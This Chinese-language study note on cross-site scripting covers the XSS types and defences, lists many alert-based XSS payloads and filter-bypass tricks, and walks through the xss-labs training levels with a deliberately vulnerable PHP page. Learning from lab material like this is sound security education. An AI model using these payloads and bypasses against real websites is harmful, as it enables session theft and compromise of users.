

# XSS漏洞

## XSS漏洞利用与防御

### XSS简介和分类

XSS是指跨站脚本(Cross Site Scripting)，攻击者向web页面（input表单、URL、留言板等位置）插入恶意`JavaScript`代码，导致管理员或者用户访问时触发进行攻击。

三种类型：
|XSS类型|触发过程|数据存储|输出主体|输出位置|是否持久|
|:---:|:---:|:---:|:---:|:---:|:---:|
|反射型|正常用户访问携带XSS脚本的URL|URL|后端Web应用程序|HTTP响应中|否|
|存储型|黑客构造XSS脚本，正常用户访问携带XSS脚本的页面|数据库|后端Web应用程序|HTTP响应中|是|
|DOM型|正常用户访问携带XSS脚本的URL|URL|前端JavaScript|动态构造的DOM节点|否|

一般来说当网页有参数回显功能，则可能存在XSS漏洞，以[xss-labs](https://github.com/do0dl3/xss-labs)第一关为例：


发现url中传递`name`参数在页面中有回显，则可以通过`?name=<script>alert();</script>`实现弹出弹窗。


这是反射型XSS漏洞的例子，其他两个的例子可以参考[【XSS漏洞-01】XSS漏洞简介、危害与分类及验证](https://blog.csdn.net/2401_84215240/article/details/144268117)

### XSS防御

1. 同源策略

源就是一个(主机、协议、端口名)三元组。

同源策略(Same Origin Policy,SOP)是Web应用程序的一个安全模型，控制网页中DOM之间的访问。

详见[【XSS技巧拓展】————1、漫谈同源策略](https://blog.csdn.net/Fly_hps/article/details/85256998)

2. html过滤

对用户输入进行过滤，防止XSS攻击。

3. http-only

禁止`JavaScript`读取Cookies

4. X-Frame

HTTP的响应头X-Frame-Options指示运行页面在其他DOM中展示，确保网站没有被嵌入到别人的站点内，避免点击劫持攻击。

## XSS攻击

### 常用的POC

新建一个`test.php`文件并在浏览器访问
```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<title>欢迎</title>
</head>
<body>
<h1 align=center>欢迎</h1>
<?php 
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>
```
访问时在url后面用`name`传参。

1. `<script>alert("hack");</script>`


2. ``

3. `<input onfocus="alert('hack');">`

当用户点击输入框会弹窗

`<input onfocus="alert('hack');" autofocus>`

添加`autofocus`可以使用户访问时自动触发。

4. `<details ontoggle="alert('hack');">`

当用户点击`details`可以触发弹窗。


`<details open ontoggle="alert('hack');">`

添加`open`可以在用户访问时自动触发。

5. `<svg onload=alert('hack');>`

6. `<select onfocus=alert('hack')></select>`

`<select onfocus=alert('hack') autofocus></select>`

7. `<iframe> onload=alert('hack');></iframe>`
8. `<video><source onerror="alert('hack')">`
9. `<audio src=x onerror=alert('hack');>`
10. `<body/onload=alert('hack');>`
11. `<textarea onfocus=alert(1); autofocus>`

`JavaScript`伪协议

12. `<a href="javascript:alert(1);">xss</a>`
13. `<iframe src=javascript:alert(1);></iframe>`
14. `<form action="javascript:alert(1)"><input type=submit>`

连接远程`javascript`文件

15. `<script src='/*.js'></script>`

### 绕过方法

1. 当过滤空格时，用`/`代替空格

``

或者用换行的Unicode编码`%0A`代替空格

`<svg%0Aonload=alert();>`

2. 当过滤关键字时，有多种方式：

- 大小写绕过 ``
- 双写关键字 `<imimgg srsrcc=x onerror=alert(1);>`
- ~~字符拼接~~ 本地测试无效？
- 混入其他字符 `<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>`
- 编码绕过 

Unicode ``

``

可以在[Unicode转码工具](https://www.toolhelper.cn/EncodeDecode/UnicodeChinese)进行转换


ASCII ``

8进制 ``

3. 当过滤单双引号时，可以同上用编码绕过，如果是在html元素内，`JavaScript`可以用反引号代替。

````

---
参考：
- [1] [XSS过滤绕过总结](https://www.cnblogs.com/sfsec/p/15178028.html)

### xss-labs实战

1.level1没有任何设防

2.level2先直接给`keyword`传入参数`<script>alert();</script>`，发现没有反应，查看网页代码：


发现第一处回显的字符串特殊符号被实体转义了，但是第二处回显在html元素`input`内，可以如下构造payload传给`keyword`进行闭合绕过:

`"><script>alert();</script><"`

3.level3 两处回显都使用了`htmlspecialchars`函数对输入进行实例化，网上找到的解法都是利用单引号没有被实例化给html元素`input`添加`onclick`或其他属性进行绕过，但是我本地测试时单引号也被实例化了，这种情况下好像无法绕过，暂且跳过。

4.level4第二处过滤了`<`,`>`符号

故使用`onfocus`和`JavaScript`伪协议进行绕过，`payload`如下：

`" onfocus=javascript:alert() "`

5.level5第二处过滤了`<script`和`on`字符

使用html元素和`javascript`伪协议绕过，`payload`如下：

`"><a href="javascript:alert();">xss</a><"`

6.level6第二处过滤了很多

可以使用大小写绕过，`payload`如下：

`"><a hRef="javascript:alert();">xss</a><"`

7.level7把输入转成小写字母，而且把许多关键词替换为空

可以利用双写绕过，`payload`如下：

`"><a hrhrefef="javascrscriptipt:alert();">xss</a><"`

::: info 黑盒测试
在没有源码时可以用`" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>`来测试过滤条件。
:::

8.level8发现回显处于html元素`a`的`href`参数内

可以利用`href`自动解析`Unicode`的性质，把被过滤的关键词用编码绕过，故把`script`中的`s`转成对应的[`Unicode`编码](https://www.matools.com/code-convert-unicode)得到`&#115;cript`，构造`payload`如下

`java&#115;cript:alert();`

::: tip 注意
这次`payload`需要输入在网页的输入框内，不能直接在url传参，因为`payload`里的`&`,`#`,`;`等在url中都需要转义，如下图

:::

9.level9多加一个检查是否含有`http://`子串

在`payload`后面加上`http://`子串再注释掉即可

`java&#115;cript:alert();/* http:// */`

10.level10通过隐藏参数传参，并过滤`<`,`>`

利用`onfocus`事件和`type="text"`使输入框显形，`payload`如下

`?keyword=test&t_sort=" onfocus="alert();" type="text`

11.level11通过http请求头的`referer`进行传参

使用Burpsuite修改http请求头的`referer`参数如下

`" onfocus="alert();" type="text`


12.level12跟level11一样，只不过改成用`user-agent`进行传参

使用Burpsuite修改http请求头的`user-agent`参数如下

`" onfocus=alert() type="text`


13.level13使用cookie进行传参

在网页按F12修改cookie值即可

`" onclick=alert() type="text`


14.level14本关原意是会读取网址`http://www.exifviewer.org/`上的图片的exif信息，但是该网站现在已经无法访问，故对`level14.php`进行修改，在本地读取上传图片的exif信息。

::: details 代码修改
修改后的`level14.php`代码如下：
```php
<html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<title>欢迎来到level14</title>
</head>
<body>
<h1 align=center>欢迎来到level14</h1>
<center><iframe name="leftframe" marginwidth=10 marginheight=10 src="exifviewer.php" frameborder=no width="80%" scrolling="no" height=80%></iframe></center>
<center>这关成功后不会自动跳转。成功者<a href=/level15.php?src=1.gif>点我进level15</a></center>
</body>
</html>
```

`exifviewer.php`代码如下：
```php
// exifviewer.php
<!-- Level 14 调取页面 -->

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>exifviewer</title>
</head>

<body>
    <center>
        <form action="#" method="post" enctype="multipart/form-data">
            <label for="file">请上传一张图片：</label><input type="file" name="file" id="file">
            <input type="submit" name="submit" value="提交">
        </form>
    </center>
</body>

</html>
<?php
// 允许上传的图片后缀
$allowedExts = array("gif", "jpeg", "jpg", "png");
$temp = explode(".", $_FILES["file"]["name"]);
$extension = end($temp);

// 检查文件扩展名  
if (!in_array($extension, $allowedExts)) {
    echo "错误：非法的文件格式。";
    exit;
}

// 尝试获取图像尺寸以验证图像  
$imageInfo = getimagesize($_FILES["file"]["tmp_name"]);
if (!$imageInfo) {
    echo "错误：上传的不是有效的图像文件。";
    exit;
}

// 检查文件上传错误  
if ($_FILES["file"]["error"] > 0) {
    echo "错误：上传文件时发生错误: " . $_FILES["file"]["error"] . "<br>";
    exit;
}

// 尝试移动文件  
$uploadDir = "uploads/"; // 确保此目录存在且可写  
$targetPath = $uploadDir . basename($_FILES["file"]["name"]);
if (!move_uploaded_file($_FILES["file"]["tmp_name"], $targetPath)) {
    echo "错误：无法移动文件。";
    exit;
}

// 读取EXIF信息  
$exif = exif_read_data($targetPath, 0, true);
if ($exif !== false) {
    echo "<h4>[" . basename($_FILES["file"]["name"]) . "]的EXIF信息:</h4>";
    foreach ($exif as $key => $section) {
        foreach ($section as $name => $val) {
            echo "$key.$name: $val<br />\n";
        }
    }
} else {
    echo "无法读取EXIF信息。";
}
?>
```

记得还要在代码目录新建一个`uploads`文件夹保存上传的图片。
:::

随便上传一张图片，显示如下即可：


由于每个exif信息都是回显点，我们只要修改图片的某个exif信息即可。

::: info linux上怎么修改图片exif信息
使用`exiftool`

`exiftool test.jpg` 查看图片exif信息

`exiftool -<fieldName>=<new-value> test.jpg` 修改图片exif信息

参考：[如何在Linux中读取和修改图像文件的EXIF数据](https://www.baeldung-cn.com/linux/exif-data-read-change)
:::

此处我修改一张`test.jpg`图片的`Software`为`<script>alert();</script>`

```sh
arwell@arwell-GL502VMZ:~/Pictures$ exiftool -Software test.jpg 
Software                        : Adobe Photoshop 21.2 (Windows)
arwell@arwell-GL502VMZ:~/Pictures$ exiftool -Software="<script>alert();</script>" test.jpg
    1 image files updated
arwell@arwell-GL502VMZ:~/Pictures$ exiftool -Software test.jpg 
Software                        : <script>alert();</script>
```

上传后成功弹窗。

15.level15出现了`ng-include`可以包含其他html文件


这里包含`level1.php`然后注入即可，`payload`如下

`level15.php?src='/level1.php?name='`

::: info 注意
这里对`level1.php?name`的参数使用的是``而不能是直接的`<script>alert()</script>`因为`level15.php`对输入字符串进行了实例化，此时`<script>alert()</script>`无效，只能利用html元素进行弹窗。
:::

16.level16过滤了空格和`/`


用换行的Unicode`%0A`代替空格即可，使用`payload`如下

`<svg%0Aonload=alert();>`

17.level17-20都涉及flash插件，但是现在基本已经不用了，此处略。

参考[xss-labs靶场实战全通关详细过程（xss靶场详解）](https://blog.csdn.net/l2872253606/article/details/125638898)

### More Practices

- [xss.haozi.me](https://xss.haozi.me/)

::: details 新的知识
[0x05](https://xss.haozi.me/#/0x05) html代码注释有两种方式`<!-- -->`和`<!-- --!>`

[0x06](https://xss.haozi.me/#/0x06) 过滤关键词时可以混入换行符

[0x0D](https://xss.haozi.me/#/0x0D) 可以用`-->`注释

[0x0E](https://xss.haozi.me/#/0x0E) `ſ`是古英语小写`s`，其大写为正常的`S`

[0x11](https://xss.haozi.me/#/0x11) 对html inline js进行转义是无意义的，因为浏览器会先解析html再解析js
:::
